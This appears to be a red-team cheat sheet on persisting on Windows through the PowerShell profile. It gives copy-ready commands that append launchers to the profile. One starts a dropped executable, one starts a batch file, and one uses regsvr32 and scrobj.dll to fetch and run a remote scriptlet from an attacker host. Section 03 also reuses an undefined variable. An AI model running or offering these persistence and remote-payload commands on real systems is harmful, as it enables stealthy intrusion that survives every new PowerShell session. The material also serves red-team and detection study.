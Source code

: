 # PowerShell Profile

## 01 - Common Files Location

### 1.1 - Unix

```
$PSHOME\Profile.ps1
$PSHOME\Microsoft.PowerShell_profile.ps1
```

### 1.2 - Windows

```
C:\Users\$Env:USERNAME\Documents\PowerShell\Profile.ps1
C:\Users\$Env:USERNAME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1
```

## 02 - Dropper Implant

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 03 - Batch Script Dropper Implant

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 04 - Web Delivery

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32.exe /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

### Persistence Info

- [Persistence Info: PowerShell Profile](https://persistence-info.github.io/Data/powershellprofile.html)

### Red Team Notes

- [Red Team Notes: Powershell Profile Persistence](https://www.ired.team/offensive-security/persistence/powershell-profile-persistence)

### Pentestlab

- [Pentestlab Blog: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

### enigma0x3

- [enigma0x3: Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

### Github

- [enigma0x3: PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)